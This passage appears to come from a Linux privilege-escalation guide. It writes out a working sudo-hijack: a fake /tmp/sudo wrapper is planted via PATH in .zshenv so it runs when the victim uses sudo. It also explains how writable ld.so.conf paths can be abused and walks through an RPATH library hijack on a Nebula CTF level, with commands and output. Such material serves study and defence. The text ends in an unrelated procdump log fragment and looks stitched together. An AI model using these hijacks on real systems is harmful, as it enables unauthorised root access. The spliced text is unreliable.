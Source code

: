 Or running something like:

```
cat >/tmp/sudo <<EOF
#!/bin/bash
/usr/bin/sudo whoami > /tmp/privesc
/usr/bin/sudo "\$@"
EOF
chmod +x /tmp/sudo
echo ‘export PATH=/tmp:$PATH’ >> $HOME/.zshenv # or ".bashrc" or any other

# From the victim
zsh
echo $PATH
sudo ls
```

## Shared Library

### ld.so

The file `/etc/ld.so.conf` indicates where the loaded configurations files are from. Typically, this file contains the following path: `include /etc/ld.so.conf.d/*.conf`

That means that the configuration files from `/etc/ld.so.conf.d/*.conf` will be read. This configuration files points to other folders where libraries are going to be searched for. For example, the content of `/etc/ld.so.conf.d/libc.conf` is `/usr/local/lib`. This means that the system will search for libraries inside `/usr/local/lib`.

If for some reason a user has write permissions on any of the paths indicated: `/etc/ld.so.conf`, `/etc/ld.so.conf.d/`, any file inside `/etc/ld.so.conf.d/` or any folder within the config file inside `/etc/ld.so.conf.d/*.conf` he may be able to escalate privileges.
Take a look at how to exploit this misconfiguration in the following page:

### RPATH

```
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714